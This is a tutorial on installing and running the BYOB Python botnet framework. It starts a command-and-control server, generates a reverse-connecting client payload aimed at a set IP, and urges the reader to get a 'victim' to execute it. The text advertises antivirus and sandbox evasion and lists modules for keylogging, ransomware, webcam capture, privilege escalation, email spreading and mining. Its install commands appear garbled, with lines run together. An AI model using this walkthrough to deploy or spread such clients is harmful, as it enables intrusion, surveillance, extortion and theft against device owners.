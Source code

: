 ## Introduction

A botnet is several Internet-connected devices, each of which is running one or more bots. Botnets can be used to perform Distributed Denial-of-Service (DDoS) attacks, steal data, send spam, and allows the attacker to access the device and its connection. The owner can control the botnet using command and control (C&C) software.

* * *

## What Is BYOB?

Malware has existed on the Internet since the beginning. The more new technology is developed, the more malware is complex. **BYOB** is a project made with Python programming language, allowing you to create your botnet within few simple steps. As described on the [Github](https://github.com/malwaredllc/byob) page of the project, **BYOB** is the abbreviation for "**Build Your Botnet**". This project offers security researchers and developers a structure to build and operate a simple botnet to deepen their understanding of the malware that infects millions of devices every year and sprouts new botnets to enhance their capacity for countering threats.

It is designed to allow you to easily deploy code and to add cool new features without having to write a RAT (Remote Administration Tool) or a C2 (Command & Control Server) from scratch. The project key feature is that you can upload arbitrary code/files to the target's memory remotely and run on the target machine without writing anything to the disk. This project supports Python v2/v3. BYOB can allow you to deploy Botnet on both Linux and Windows machines. In this tutorial, we will see together how to create and execute a Botnet on Linux architecture.

**Client Botnet Features**

Generate fully-undetectable clients with staged payloads, remote imports, and unlimited post-exploitation modules.

- **Remote Imports** - Remotely import third-party packages from the server without writing them to the disk or downloading/installing them.
- **Nothing Written To The Disk** - Clients never write anything to the disk, not even temporary files (zero IO system calls are made) because remote imports allow arbitrary code to be dynamically loaded into memory and directly imported into the currently running process.
- **Zero Dependencies (Not Even Python Itself)** - Client runs with just the Python standard library, remotely imports any non-standard packages/modules from the server, and can be compiled with a standalone Python interpreter into a portable binary executable formatted for any platform/architecture, allowing it to run on anything, even when Python itself is missing on the target host.
- **Add New Features With Just 1 Click** - Any Python script, module, or package you copy to the `./byob/modules/` directory automatically becomes remotely importable & directly usable by every client while your command & control server is running.
- **Write Your Modules** - A basic module template is provided in `./byob/modules/` directory to make writing your modules a straight-forward, hassle-free process.
- **Run Unlimited Modules Without Bloating File Size** - Use remote imports to add unlimited features without adding a single byte to the client's file size.
- **Fully Updatable** - Each client will periodically check the server for new content available for remote import, and will dynamically update its in-memory resources if anything has been added/removed.
- **Platform Independent** - Everything is written in Python (a platform-agnostic language) and the clients generated can optionally be compiled into a portable executable (_Windows_) or bundled into a standalone application (_macOS_).
- **Bypass Firewalls** - Clients connect to the command & control server via reverse TCP connections, which will bypass most firewalls because the default filter configurations primarily block incoming connections.
- **Counter-Measure Against Antivirus** - Avoids being analyzed by antivirus by blocking processes with names of known antivirus products from spawning.
- **Encrypt Payloads To Prevent Analysis** - The main client payload is encrypted with a random 256-bit key that exists solely in the payload stager which is generated along with it.
- **Prevent Reverse-Engineering** - By default, clients will abort execution if a virtual machine or sandbox is detected.

**Server Botnet Features**

Command & control server with persistent database and console.

- **Console-Based User-Interface** - Streamlined console interface for controlling client host machines remotely via reverse TCP shells which provide direct terminal access to the client host machines.
- **Persistent SQLite Database** - A lightweight database that stores identifying information about client host machines, allowing reverse TCP shell sessions to persist through disconnections of arbitrary duration and enabling long-term reconnaissance.
- **Client-Server Architecture** - All Python packages/modules installed locally are automatically made available for clients to remotely import without writing them to the disk of the target machines, allowing clients to use modules that require packages not installed on the target machines.

If you wish to know more about **BYOB** and all the available modules and the options, we highly suggest you visit the [Github](https://github.com/malwaredllc/byob) page of the project.

* * *

## How To Install And Use BYOB?

For this tutorial, I will use Arch Linux, but you can use any recent GNU/Linux distribution such as Debian, Ubuntu, Kali, etc ... We will first start by installing "BYOB" on our machine along with all the dependencies required by this tool to work properly so that we can then generate our Botnet server/clients and see together how this project works.

For Arch Linux users you will need to install first the following dependencies:

**Install BYOB on Ubuntu/Debian and other derived distributions**

```html
git clone https://github.com/malwaredllc/byobcd byob/byob/chmod +x setup.pypip install -r requirements.txtsudo python setup.py
```

**Install BYOB on Arch Linux**

```html
sudo pacman -Syu base-devel hdf5 opencv opencv-samplesgit clone https://github.com/malwaredllc/byobcd byob/byob/chmod +x setup.pypip install -r requirements.txt
```

### Starting The Botnet Server

Once you are done with the installation, you can start your BYOB Botnet server. Honestly, I would like to make a long story but must say the truth, that can be done very easily. The unique thing you have to do is to execute the below command in your terminal:

```html
python server.py --port 1337
```

In the above example, I set up the Botnet server to listen to the port 1337 of my machine. But of course, you are free to use the port you want as long you use the same port when creating the Botnet client.

If you want to display usage information and/or all the options available, at this stage you can do it by invoking the `help` command from your terminal.

### Create A Linux Botnet Client

We will now talk about the most important part, we will create our first Botnet client that will target Linux machine. We will see in the next step how to create a client that works on Windows also don't worry. To do this the first thing that we will need to determine is the IP address to which your Botnet Server is currently connected. If you do not know the IP address of your machine, you can simply find it using the following command:

```html
ifconfig
```

Before moving further, we will take a few minutes to check the usage information and all the options available for our Botnet client. To do it, simply use the following command:

```html
python client.py --help
```

To create our Botnet we must use the following arguments:

```html
usage: client.py [-h] [--name NAME] [--encrypt] [Botnet Server IP] [Botnet Server Port]
```

So let's try to generate our first Botnet. For this tutorial, I will use it as output name `archive` but of course you can name it whatever you want.

```html
python client.py --name archive.py 192.168.1.4 1337
```

A file named `archive.py` has been generated. I will not explain to you how to send it to your victim since this is not the purpose of this tutorial. But we can say that now the challenge for you is to send this file to your target and do whatever is necessary so that the latter executes it.

* * *

### What Botnet Allows Me To Do?

For the last part of this article, we will consider that our Botnet has been sent to our victim and that the latter had the very bad idea of clicking on it. The question you are probably asking yourself now is "What does BYOB allow me to do"? Frankly, the possibilities are quite wide since this source code allows you once to run a computer to run different modules which are:

**BYOB Modules**

- **Keylogger** - Logs the user’s keystrokes & the window name entered
- **Screenshot** - Take a screenshot of current user’s desktop
- **Webcam** - View a live stream or capture image/video from the webcam
- **Ransom** - Encrypt files & generate random BTC wallet for ransom payment
- **Outlook** - Read/search/upload emails from the local Outlook client
- **Packet Sniffer** - Run a packet sniffer on the host network & upload .pcap file
- **Persistence** - Establish persistence on the host machine using 5 different methods
- **Phone** - Read/search/upload text messages from the client smartphone
- **Escalate Privileges** - Attempt UAC bypass to gain unauthorized administrator privileges
- **Port Scanner** - Scan the local network for other online devices & open ports
- **Process Control** - List/search/kill/monitor currently running processes on the host
- **iCloud** - Check for logged in iCloud account on macOS
- **Spreader** - Spread client to other hosts via emails disguised as a plugin update
- **Miner** - Mine Monero in the background using the built-in miner or XMRig

* * *

## Conclusion

In conclusion, BYOB provides a powerful framework for understanding and experimenting with botnets. Its flexibility, platform independence, and extensive features make it a valuable tool for security research and education.